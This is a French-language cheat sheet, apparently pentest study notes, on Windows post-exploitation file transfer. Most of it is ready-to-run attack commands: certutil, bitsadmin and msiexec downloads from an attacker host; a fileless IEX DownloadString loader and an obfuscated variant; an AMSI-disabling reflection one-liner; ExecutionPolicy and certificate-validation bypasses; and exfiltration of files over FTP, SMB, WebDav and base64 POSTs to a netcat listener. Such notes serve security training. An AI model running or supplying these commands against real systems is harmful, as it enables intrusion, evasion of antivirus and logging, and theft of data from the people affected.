

Ce document détaille les méthodes de transfert de fichiers dans un environnement Windows, en s'appuyant sur les principes de **Living off the Land** et les techniques de **Windows Post-Exploitation**.



## Encodage et décodage en base64

**Usage :** Transfert manuel sans réseau en encodant le fichier en **base64** pour un copier-coller entre machines.

*   **Encode (Linux) :**
    ```bash
    base64 -w 0 file.txt
    ```

*   **Decode (PowerShell Windows) :**
    ```powershell
    [IO.File]::WriteAllBytes("$env:TEMP\output", [Convert]::FromBase64String("<base64_string>"))
    ```

*   **Vérification md5 :**
    ```powershell
    Get-FileHash <file> -Algorithm md5
    ```

## BITSAdmin (Background Intelligent Transfer Service)

**BITSAdmin** est un outil en ligne de commande utilisé pour créer, télécharger ou uploader des fichiers. Il est particulièrement efficace car il utilise le service BITS, souvent autorisé par les politiques de sécurité.

*   **Téléchargement de fichier :**
    ```cmd
    bitsadmin /transfer job /download /priority normal http://<ip>/file.exe %TEMP%\file.exe
    ```

*   **Vérification du transfert :**
    ```cmd
    bitsadmin /list /verbose
    ```

## Certutil (Utilisation pour encodage/téléchargement)

**Certutil** est un binaire natif Windows souvent utilisé pour le téléchargement de fichiers (via l'option `-urlcache`) ou l'encodage/décodage.

*   **Téléchargement :**
    ```cmd
    certutil -urlcache -split -f http://<ip>/file.exe file.exe
    ```

*   **Encodage/Décodage (Base64) :**
    ```cmd
    certutil -encode input.txt encoded.txt
    certutil -decode encoded.txt output.txt
    ```

## Living-off-the-land binaries (LOLBins) pour transfert

L'utilisation de binaires signés par Microsoft permet de contourner certaines détections basées sur les signatures.

*   **Msiexec (Téléchargement distant) :**
    ```cmd
    msiexec /q /i http://<ip>/package.msi
    ```

*   **SCP/SFTP (via OpenSSH Windows) :**
    Si le service OpenSSH est actif sur la cible, il est possible d'utiliser les clients natifs :
    ```cmd
    scp user@<ip>:/path/to/file C:\Windows\Temp\file
    ```

## Contournement des politiques d'exécution PowerShell (ExecutionPolicy)

Les politiques d'exécution ne sont pas une mesure de sécurité, mais un outil de gestion. Elles peuvent être contournées facilement.

*   **Contournement par argument :**
    ```powershell
    powershell -ExecutionPolicy Bypass -File script.ps1
    ```

*   **Contournement par flux (stdin) :**
    ```powershell
    type script.ps1 | powershell -noprofile -
    ```

## Considérations sur l'antivirus et la journalisation (AMSI/ScriptBlockLogging)

L'**AMSI** (Antimalware Scan Interface) analyse les scripts en mémoire. Le **ScriptBlockLogging** enregistre tout le code PowerShell exécuté.

*   **Obfuscation simple (pour éviter les signatures statiques) :**
    ```powershell
    $a = 'IEX'; $b = 'New-Object'; $c = 'Net.WebClient'; IEX (& $b $c).DownloadString('http://<ip>/file.ps1')
    ```

*   **Désactivation temporaire (si privilèges suffisants) :**
    ```powershell
    [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
    ```

## PowerShell Web Downloads

Utilisation des classes .NET de **PowerShell** pour le téléchargement via HTTP/HTTPS.

> [!danger] Risque de sécurité
> L'utilisation de **IEX** avec des sources non fiables est un risque de sécurité majeur.

*   **DownloadFile (sauvegarde sur disque) :**
    ```powershell
    (New-Object Net.WebClient).DownloadFile('<url>', "$env:TEMP\file.ps1")
    ```

*   **DownloadString + IEX (fileless, exécution en mémoire) :**
    ```powershell
    IEX (New-Object Net.WebClient).DownloadString('<url>')
    ```

*   **Invoke-WebRequest (alias : iwr, curl, wget) :**
    ```powershell
    Invoke-WebRequest <url> -OutFile <filename>
    ```

*   **Contournement erreurs IE :**
    ```powershell
    Invoke-WebRequest <url> -UseBasicParsing
    [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
    ```

## SMB Downloads

Partage de fichiers via **SMB** (port 445).

> [!warning] Filtrage réseau
> Le port 445 (SMB) est très souvent bloqué par les pare-feux en sortie (**Egress Filtering**).

*   **Serveur SMB avec impacket-smbserver (Linux) :**
    ```bash
    impacket-smbserver share -smb2support /tmp/share
    ```

*   **Client Windows (CMD) :**
    ```cmd
    copy \\<ip>\share\file.exe .
    net use n: \\<ip>\share /user:test test
    copy n:\file.exe .
    ```

## FTP Downloads

Téléchargement par **FTP** (port 21).

> [!danger] Risque d'interception
> L'utilisation de **FTP** en clair expose les données transférées à une interception sur le réseau.

*   **Serveur FTP avec pyftpdlib (Linux) :**
    ```bash
    python3 -m pyftpdlib --port 21
    ```

*   **PowerShell :**
    ```powershell
    (New-Object Net.WebClient).DownloadFile('ftp://<ip>/file.txt', "$env:TEMP\file.txt")
    ```

*   **Script ftp client :**
    ```cmd
    echo open <ip> > ftp.txt
    echo USER anonymous >> ftp.txt
    echo GET file.txt >> ftp.txt
    echo bye >> ftp.txt
    ftp -s:ftp.txt
    ```

## Uploads - PowerShell Web Upload

Serveur d’upload via **uploadserver** (Python).

*   **Serveur :**
    ```bash
    pip3 install uploadserver
    python3 -m uploadserver
    ```

*   **Upload (PowerShell) :**
    ```powershell
    IEX(New-Object Net.WebClient).DownloadString('https://<ip>/PSUpload.ps1')
    Invoke-FileUpload -Uri http://<ip>:8000/upload -File C:\path\to\file
    ```

## Uploads - FTP

*   **Serveur FTP en écriture :**
    ```bash
    python3 -m pyftpdlib --port 21 --write
    ```

*   **PowerShell :**
    ```powershell
    (New-Object Net.WebClient).UploadFile('ftp://<ip>/target', 'C:\path\file')
    ```

*   **Script ftp client :**
    ```cmd
    echo PUT file.txt >> ftp.txt
    ftp -s:ftp.txt
    ```

## Uploads - SMB et WebDav

> [!tip] Alternative HTTP
> **WebDav** est une excellente alternative lorsque le **SMB** est bloqué mais que le trafic HTTP/S est autorisé.

*   **WebDav (contourne restrictions SMB sortantes) :**
    ```bash
    pip3 install wsgidav cheroot
    wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
    ```

*   **Windows (CMD) :**
    ```cmd
    copy file.txt \\<ip>\DavWWWRoot\
    ```

## Uploads - PowerShell Base64 + Netcat

Utilisation d'un POST HTTP vers un listener **netcat**.

*   **PowerShell :**
    ```powershell
    $b64 = [Convert]::ToBase64String((Get-Content -Path 'file' -Encoding Byte))
    Invoke-WebRequest -Uri http://<ip>:8000/ -Method POST -Body $b64
    ```

*   **Linux (netcat + base64 -d) :**
    ```bash
    nc -lvnp 8000 > file.b64
    base64 -d file.b64 > original_file
    ```

## Résumé des cas d’usage

| Protocole | Sens | Outils | Remarques |
| :--- | :--- | :--- | :--- |
| HTTP(S) | Download | PowerShell WebClient / IEX | Souvent autorisé en sortie par défaut |
| SMB | Up/Download | **impacket-smbserver** / copy | Bloqué en sortie. Auth requis éventuellement |
| FTP | Up/Download | **pyftpdlib** / ftp / WebClient | Peu sécurisé, souvent détecté |
| WebDav | Upload | **wsgidav** | SMB over HTTP. Moins bloqué |
| Base64 | Up/Download | PowerShell + copier/coller | Sans réseau, utile en RDP, webshells |

Ces techniques s'inscrivent dans le cadre des méthodologies de **Windows Post-Exploitation** et nécessitent une compréhension des concepts de **PowerShell Fundamentals** et de **Egress Filtering and Pivoting**.